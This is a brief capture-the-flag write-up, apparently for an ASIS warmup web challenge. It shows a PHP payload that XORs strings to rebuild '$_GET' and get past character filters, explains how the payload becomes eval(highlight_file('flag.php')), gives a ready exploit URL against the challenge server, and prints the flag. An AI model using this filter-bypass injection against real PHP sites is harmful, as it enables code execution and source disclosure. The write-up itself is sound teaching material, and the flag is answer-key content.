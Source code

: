 **Challenge:** http://69.90.132.196:5003/?view-source

Payload: <code>$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php</code>

Explaining:
  - <code>$_="`{{{"^"?<>/";</code> | Result of xor operation: <code>$_ = "_GET"</code>
  - <code>${$_}[_](${$_}[__]);</code> | <code>$_GET[_]($_GET[__])</code>
  - Setting the parameters, eval function will be: <code>eval(highlight_file('flag.php'))</code>

**<a target='blank' href="http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php" >Get the flag</a>**

**Flag**: ASIS{w4rm_up_y0ur_br4in}
